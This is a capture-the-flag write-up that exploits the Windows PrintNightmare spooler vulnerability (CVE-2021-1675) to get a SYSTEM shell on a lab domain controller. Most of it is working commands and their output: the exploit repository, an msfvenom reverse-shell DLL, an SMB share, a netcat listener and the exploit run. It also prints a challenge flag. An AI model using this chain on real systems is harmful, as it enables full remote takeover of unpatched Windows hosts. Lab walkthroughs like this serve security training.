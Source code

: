 

![](Pasted%20image%2020210809231954.png)

If you don't live under a rock and follow cyber security news even slightly, you'd be aware that a new RCE vulnerability for Windows Printer Spool service was released recently. The vulnerability dubbed PrintNightmare has released a lot of attention and for the right reasons... Its pretty epic!

The name of the challenge hints at it being about this vulnerability and the note gives it away (especially if you solved the previous challenge using PrintNightmare ;) ):
> Note 2: this vulnerability was also present in the Scorching challenge (which has been patched as of phase 3).

We're given credentials to begin with `Space:Inv4d3r` which means most of the work is already done for us. Now we only need to run the exploit.

We can check if MS-PAR and MS-RPRN system calls are exposed. Either of these may be used to exploit this vulnerability:
```
% rpcdump.py "Space:Inv4d3r@10.6.0.2" | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

We can see that both are available so this host is potentially vulnerable.

There are a lot of exploits available on github, however I've found that this guy's exploit is one of the more reliable: https://github.com/cube0x0/CVE-2021-1675

You need to install his impacket implementation in order to run this exploit. However, if you're like me and don't want to mess up your impacket installation, you can simply run everything in a virtual environment so that you don't overwrite your impacket install.

We setup a virtual environment using `pipenv` and install the custom impacket code:
```
% pipenv shell
% git clone https://github.com/cube0x0/impacket
% cd impacket
% pip install .

# if you're having issues with pip hanging, try running pip with -v and if its related to HTTPS, disabled ipv6 (ref: https://stackoverflow.com/a/64605497)
```

Clone the actual exploit now:
```
git clone https://github.com/cube0x0/CVE-2021-1675
```

You should now have the python exploit:
```
% ls
CVE-2021-1675.py  Images  README.md  SharpPrintNightmare
```

Create a directory which will be your exposed share, in this case I've called it "myshare":
```
% mkdir myshare
```

Create a reverse shell dll using msfvenom and put it in your "myshare" directory. My IP is 10.6.0.100 and I'll be listening on port 80:
```
(asdf-I4AHjtDI) (main) % msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.6.0.100 LPORT=80 -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
Saved as: reverse.dll
(asdf-I4AHjtDI) (main)⚡ % mv reverse.dll myshare   
```

At this point, we can start the smbserver in a separate terminal window and server the "myshare" folder as a share named "myshare":
```
% sudo smbserver.py myshare myshare
[sudo] password for lo:
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In another window, we start our netcat listener:
```
% sudo nc -lvnp 80                                                                  [sudo] password for lo:
listening on [any] 80 ...

```

And finally, in the virtual environment we can run the exploit:
```
% python3 CVE-2021-1675.py Space:Inv4d3r@10.6.0.2 '\\10.6.0.100\myshare\reverse.dll'        
[*] Connecting to ncacn_np:10.6.0.2[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_3138b2c823dd1ea9\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.6.0.100\myshare\reverse.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

```

It might take a few tries for the exploit to work, however it should trigger and you get a reverse shell back.

In the end, your setup might look similar to this:
![](Pasted%20image%2020210809235643.png)

And you have a shell as system:
```
% sudo nc -lvnp 80
[sudo] password for lo:
listening on [any] 80 ...
connect to [10.6.0.100] from (UNKNOWN) [10.6.0.2] 52907
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC1

```

The flag is locate in `C:\`:
```
C:\>cd /
cd /

C:\>ls
ls
$Recycle.Bin
BOOTNXT
Documents and Settings
PerfLogs
Program Files
Program Files (x86)
ProgramData
System Volume Information
TheFlag.txt
Users
Windows
bootmgr
pagefile.sys

C:\>type TheFlag.txt
type TheFlag.txt
CTF{55a7160186a60b662b37c9c07c709e18}
```